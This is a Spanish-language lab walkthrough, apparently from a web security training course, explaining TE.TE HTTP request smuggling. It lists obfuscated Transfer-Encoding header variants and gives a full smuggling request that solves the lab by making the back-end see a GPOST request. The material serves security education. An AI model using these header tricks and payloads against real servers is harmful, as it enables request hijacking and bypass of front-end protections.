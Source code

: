 - Transfer-Encoding: xchunked
- Transfer-Encoding : chunked
- Transfer-Encoding: chunked
- Transfer-Encoding: x
- Transfer-Encoding:\[tab]chunked \[space]
- Transfer-Encoding: chunked X: X[\n]
- \[SPACE\]Transfer-Encoding: chunked
- X: X\[\\n]Transfer-Encoding : chunked
- Transfer-Encoding
: chunked


Cada una de estas técnicas implica una desviación sutil de la especificación HTTP. El código real que implementa una especificación de protocolo rara vez se adhiere a ella con absoluta precisión y es común que diferentes implementaciones toleren diferentes variaciones de la especificación. **Para descubrir una vulnerabilidad TE.TE, es necesario encontrar alguna variación del encabezado Transfer-Encoding de modo que solo uno de los servidores front-end o back-end lo procese, mientras que el otro servidor lo ignore.**

Dependiendo de si es el servidor front-end o el back-end el que puede ser inducido a no procesar el encabezado Transfer-Encoding ofuscado, el resto del ataque tomará la misma forma que para las vulnerabilidades CL.TE o TE.CL. ya descrito.

<br />

**Laboratorio 3: HTTP request smuggling, obfuscating the TE header**

Este laboratorio involucra un servidor front-end y back-end, y los dos servidores manejan encabezados de solicitud HTTP duplicados de diferentes maneras. El servidor front-end rechaza las solicitudes que no utilizan el método GET o POST.

Para resolver el laboratorio, pase de contrabando una solicitud al servidor de back-end, de modo que la próxima solicitud procesada por el servidor de back-end parezca usar el método GPOST.

En primer lugar, accedemos al laboratorio y empezamos a mandar request con la cabecera Transfer-Encoding duplicada y con valores ofuscados para conseguir que los servidores procesen cabeceras distintas. Finalmente, la request:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Cookie: session=cookiesession
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
```

Finalmente termina dando resultado.
